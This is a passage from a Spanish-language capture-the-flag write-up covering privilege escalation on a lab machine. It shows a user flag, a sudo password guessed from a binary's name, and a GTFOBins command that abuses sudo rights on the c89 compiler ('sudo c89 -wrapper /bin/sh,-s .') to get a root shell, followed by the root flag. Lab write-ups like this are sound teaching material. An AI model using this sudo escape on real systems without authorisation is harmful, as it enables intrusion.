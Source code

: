 > user.txt

```
f5d22841e337cab01739e59cce3275e9
```

## Escalate Privileges

Si hacemos `sudo -l` veremos que necesitaremos una contraseña, por lo que buscaremos a ver donde puede haber alguna pista.

Si vamos a `/usr/local/bin` veremos un binario llamado `metadatosmalos` con un contenido que no importa mucho y los permisos normales, por lo que probaremos a meter como contraseña el nombre del binario.

```shell
sudo -l
```

Metemos como contraseña `metadatosmalos` y veremos que funciona.

```
Matching Defaults entries for metadata on a6c7dc66c5c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User metadata may run the following commands on a6c7dc66c5c1:
    (ALL : ALL) /usr/bin/c89
```

Vemos que podemos ejecutar como `root` el binario `c89` por lo que haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/c89/#sudo

```shell
sudo c89 -wrapper /bin/sh,-s .
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
d6c4a33bec66ea2948f09a0db32335de
```
